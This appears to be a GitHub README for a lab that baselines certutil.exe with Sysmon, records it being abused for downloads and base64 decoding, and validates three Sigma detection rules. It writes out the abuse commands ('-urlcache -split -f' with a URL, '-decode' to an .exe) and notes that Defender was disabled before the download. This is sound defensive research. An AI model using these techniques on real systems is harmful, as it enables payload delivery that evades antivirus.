







# Baselining certutil.exe: Detecting LOLBIN Abuse with Sysmon

> You can't spot abnormal until you know what normal looks like.

A small detection-engineering lab. I recorded `certutil.exe` doing its normal job, then recorded it being abused the way attackers use it (downloading a file, decoding a base64 payload), compared the telemetry, and turned the differences into three Sigma rules. The rules were validated against a test battery: **7/7 correct, 0 false positives, 0 false negatives.**

**No malware was used.** The "payload" downloads were the harmless `example.com` page, and the encoded payload was a sentence I wrote. The telemetry an attacker would generate is the same; only the content is inert.

---

## TL;DR

- **"certutil connected out and wrote a file" is not evidence of abuse.** A legitimate admin command (`-generateSSTFromWU`) does both. The command-line verbs are what separate legitimate from abusive use.
- **Microsoft Defender blocked the download but not the decode**, even when the decoded output was named `.exe`. When Defender blocked at launch, Sysmon recorded nothing, so the antivirus log was the only evidence of the attempt.
- **Attribution needs the process's own DNS query (Sysmon EID 22).** The DNS cache expired within seconds, IPs changed between runs, and reverse DNS only named the CDN.
- **Log write time is not event time.** Sorted by `TimeCreated`, certutil appeared to exit before connecting out. Timelines must use each event's `UtcTime`.
- **Three Sigma rules** (download, decode, executable written) validated in the lab, with honest limitations below.

---

## Repository contents

| Path | What it is |
|---|---|
| `detections/` | Three Sigma rules (R1–R3) |
| `scripts/detect-certutil.ps1` | Replays the R1–R3 logic against the local Sysmon log, so the rules can be tested without a SIEM |
| `sysmon/` | The two lab Sysmon configs (v1, and v2 with DNS logging) |
| `docs/lab-notes.md` | Full lab notes: every run, timeline, finding, and the screenshot index |
| `screenshots/` | 33 screenshots, numbered in the order they were taken |

---

## Lab setup

| Component | Detail |
|---|---|
| Host | VirtualBox |
| Guest | Windows 10, isolated VM, snapshot restored before each run |
| Telemetry | Sysmon v15.22 (schema 4.91) |
| Config | Scoped to `certutil.exe` only: EID 1 (process create), 3 (network), 11 (file create); v2 adds 22 (DNS query) and 5 (process exit) |
| Antivirus | Microsoft Defender, default settings |

The config deliberately watches only certutil so every event in the log came from a test. **This would be useless in production**, where configs log broadly and filter out noise (for example [sysmon-modular](https://github.com/olafhartong/sysmon-modular) or [SwiftOnSecurity's config](https://github.com/SwiftOnSecurity/sysmon-config)).

---

## The three runs

| Run | Commands | ATT&CK |
|---|---|---|
| **A: Legitimate baseline** | `-store My`, `-store Root`, `-hashfile`, `-generateSSTFromWU` | — |
| **B: Download abuse** | `-urlcache -split -f https://www.example.com/ <file>` | [T1105](https://attack.mitre.org/techniques/T1105/) |
| **C: Decode abuse** | `-encode` (attacker prep), then `-decode` to `.txt` and to `.exe` | [T1140](https://attack.mitre.org/techniques/T1140/) |

---

## Key findings

### 1. A legitimate certutil command behaves like a downloader

`certutil -generateSSTFromWU` downloads Microsoft's trusted-root list. It made a network connection and wrote a file, over plain HTTP on port 80, to a bare IP with no hostname.



### 2. Attributing a connection takes the right event

- The host's DNS cache no longer held the IP by the time it was checked. CDN records expire in seconds.
- Two identical legitimate runs connected to two different IPs, so IP allow-lists don't work for CDN-hosted services.
- After adding Sysmon **EID 22**, the DNS event showed certutil resolving `ctldl.windowsupdate.com`, and the returned IP matched the connection.
- Reverse DNS on the connection returned an Akamai server name, which identifies the CDN, not the service.



### 3. TimeCreated lies about order

Sorted by `TimeCreated`, certutil "exited" before its DNS lookup and connection. Network events reach the log late. Sorted by `UtcTime`, the run reads correctly: start → DNS (+58 ms) → connect (+16 ms) → file write → exit.



### 4. When Defender blocks at launch, Sysmon sees nothing

With Defender on, the download was blocked as `Trojan:Win32/Ceprolad.A`. The detection target was the command line itself, not a file. PowerShell reported `Access is denied`, and Sysmon logged no events for the attempt. Before concluding that, Sysmon's health was confirmed with its active config and a canary command.

The Defender event named neither the parent process nor the user who ran the command. **A SOC needs both log sources.**



### 5. The full download chain, and what it leaves behind

With Defender's real-time protection off, the download took about 0.5 seconds:

1. Process start with `-urlcache -split -f` and the URL
2. DNS lookup of `www.example.com`, then two connections to the returned IP
3. Certificate-revocation lookups to `ocsp.comodoca.com` and `crls.ssl.com` (the download was HTTPS)
4. Payload written; certutil exits

The legitimate download wrote **1 file**. This one wrote **12**, including cached copies in `CryptnetUrlCache` and `INetCache` under the user profile that persist if the payload is deleted. `certutil -urlcache *` listed the URL in both the WinINet and WinHTTP caches, among dozens of certificate-infrastructure URLs where it was the only non-PKI host.

Defender's log also showed real-time protection was **disabled 21 seconds before the download**, a classic attacker sequence worth a correlation rule.



### 6. The decode is silent

The decode took about 8 ms and produced three events: process start, file write, exit. No DNS, no network. Defender did not react, even when the output was named `update.exe`. The encoded payload was wrapped in `-----BEGIN CERTIFICATE-----` markers, so it looks like an ordinary certificate file.

The decoded content was harmless text, so the precise claim is: **the decode behavior itself, including decode-to-executable, is not blocked.** Defender might still catch a known-malicious file when it lands on disk.



---

## Comparison

| Signal | Legit: store / hash | Legit: Windows Update download | Abuse: download | Abuse: decode |
|---|---|---|---|---|
| Verbs | `-store`, `-hashfile` | `-generateSSTFromWU` | `-urlcache -split -f` + URL | `-decode` |
| DNS (EID 22) | none | `ctldl.windowsupdate.com` | `www.example.com`, then OCSP/CRL hosts | none |
| Network (EID 3) | none | Microsoft CDN, HTTP/80 | payload host ×2 + certificate servers | none |
| Files written (EID 11) | 0 | 1 | 12 | 1 |
| Defender | no action | no action | **blocked** | **no action**, even to `.exe` |
| Duration | — | ≈ 1.6 s | ≈ 0.5 s | ≈ 8 ms |

---

## Detections

| Rule | Log source | Fires when | Level |
|---|---|---|---|
| [R1: download](detections/R1-certutil-download.yml) | process_creation | command line has `urlcache` or `verifyctl` **and** `http(s)://` | high |
| [R2: decode](detections/R2-certutil-decode.yml) | process_creation | command line has `-decode` or `/decode` | medium |
| [R3: wrote executable](detections/R3-certutil-writes-executable.yml) | file_event | certutil creates `.exe`, `.dll`, `.ps1`, `.bat`, `.cmd`, `.vbs`, `.js`, `.hta`, `.scr` | high |

R3 is behavior-based: it ignores the command line and fires on what lands on disk.

### Validation

`scripts/detect-certutil.ps1` applies the same logic to the Sysmon log and links file events to their process through `ProcessGuid`. Results on a fresh snapshot:

| Test | Expected | Result |
|---|---|---|
| `-store My` | no alert | ✅ no alert |
| `-hashfile` | no alert | ✅ no alert |
| `-generateSSTFromWU` (legit download) | no alert | ✅ no alert |
| `-urlcache -split -f <url>` | R1 | ✅ R1 |
| `/URLCACHE /split /f <url>` (disguised variant) | R1 | ✅ R1 |
| `-decode` to `.txt` | R2 | ✅ R2 |
| `-decode` to `.exe` | R2 + R3 | ✅ R2 + R3 |



---

## Limitations

- **Seven commands are not a production baseline.** Real false-positive rates need sustained enterprise telemetry.
- **A renamed certutil would blind this lab.** The Sysmon config filters on the file name. The Sigma rules also match `OriginalFileName`, which survives renaming, but that path was not tested.
- **R3 can be sidestepped** by decoding to a benign extension and renaming afterward. R2 still catches the decode.
- **Command-line rules can be obfuscated**, which is why R3 matters.
- **Defender's definitions updated between Run B and Run C**, so they ran against different versions.

---

## Reproduce it

1. Build an isolated Windows VM and take a snapshot. Never run this on a production or personal machine.
2. Install Sysmon with the lab config:
   ```powershell
   .\Sysmon64.exe -accepteula -i sysmon\sysmon-certutil-v2.xml
   ```
3. Run the commands from the tables above, clearing the log between runs:
   ```powershell
   wevtutil cl "Microsoft-Windows-Sysmon/Operational"
   ```
4. Run the detector:
   ```powershell
   powershell -ExecutionPolicy Bypass -File scripts\detect-certutil.ps1
   ```
5. Uninstall Sysmon (`Sysmon64.exe -u`) and restore the snapshot when done.

The download tests require temporarily disabling Defender's real-time protection inside the VM. Re-enable it afterward.

---

## References

- [LOLBAS Project: Certutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)
- [MITRE ATT&CK T1105: Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- [MITRE ATT&CK T1140: Deobfuscate/Decode Files or Information](https://attack.mitre.org/techniques/T1140/)
- [Sysmon (Microsoft Sysinternals)](https://learn.microsoft.com/sysinternals/downloads/sysmon)
- [Sigma](https://github.com/SigmaHQ/sigma)
